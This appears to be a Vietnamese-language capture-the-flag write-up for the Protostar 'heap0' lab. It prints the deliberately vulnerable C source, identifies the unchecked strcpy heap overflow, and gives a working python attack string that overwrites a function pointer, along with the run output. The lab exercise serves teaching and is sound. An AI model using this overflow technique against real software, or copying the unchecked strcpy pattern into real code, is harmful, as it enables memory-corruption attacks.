

# **heap0**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Vulnerability
strcpy()
## Exploit
- Phân tích main:



- Khai thác: overflow biến d để ghi đè địa chỉ winner() thay cho hàm nowinnner()
- Địa chỉ hàm winner(): 0x08048464
- Attack-string:
```
python -c 'print "A"*(0x50 - 0x08) + "\x64\x84\x04\x08"'
```
- Kết quả:
```
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c 'print "A"*(0x50 - 0x08) + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

# References